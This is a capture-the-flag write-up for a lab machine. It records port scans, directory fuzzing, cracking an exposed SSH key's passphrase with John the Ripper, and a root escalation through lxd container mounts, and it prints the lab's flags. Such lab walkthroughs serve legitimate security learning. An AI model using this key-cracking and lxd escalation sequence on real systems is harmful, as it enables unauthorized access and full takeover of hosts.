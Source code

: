 * Running Nmap
```
nmap -p- --min-rate=1000 10.10.165.228
```

![](attachments/nmap_first_scan.png)

-> all ports are filtered
-> for more detailed NMAP scan:

```
nmap -sC -sV 10.10.165.228 -p22,80 -o nmap
```

![](attachments/nmap2.png)

-> fuzzing directories through FFUF 

```
ffuf -u http://10.10.165.228/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt
```


![](attachments/Gaming%20Server%20CTF%20ffuf.png)

-> searching directories through gobuster

```
gobuster dir -u http://10.10.165.228 -u /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![](attachments/Gaming%20Server%20CTF%20gobuster.png)


* looking at the side's page source we find the username john :
* as shown by the gobuster moving to the directory /secret give the ssh private key however login is not successful since it contains passphrase
* trying to bruteforce the ssh private key
* i googled a bit and found this tutorial on how to [crack ssh private key](https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/)
 * first i downloaded the ssh2john and converted the private key to hash



````
wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py
````

````
ssh2john rsaprivkey >rsaprivkey.hash
````


````
john --wordlist=/usr/share/wordlists/rockyou.txt rsaprivkey.hash
````


gives me the password: **letmein**

now sshing to the shell

```
ssh -i priv_key john@10.10.165.228
```

passphrase:letmein

cat user.txt returns **a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e**

running id shows user running lxd which lets escalate our privilege
I don't know much about lxd  so I took help of google and got this awesome 
page [lxd_privesc](https://vk9-sec.com/lxd-privilege-escalation/#:~:text=lxd%20%E2%80%93%20privilege%20escalation%201%201.%20In%20this,execute%20bash%20within%20the%20instance%20...%20More%20items) and [lxd-another-technique](https://www.hackingarticles.in/lxd-privilege-escalation/)


the sequence of commands that i ran with the help of website are:


````
lxd init
````

````
lsb_release -a
````

````
lxc init ubuntu:18.04 test -c security.privileged=true
````

````
lxc config device add test whatever disk source=/ path=/mnt/root recursive=true
````

````
lxc start test
````

````
lxc info test
````

````
lxc exec test bash
````

````
cd /mnt/root
````

which gives me rootflag.txt ---> **2e337b8c9f3aff0c2b3e8d4e6a7c88fc**


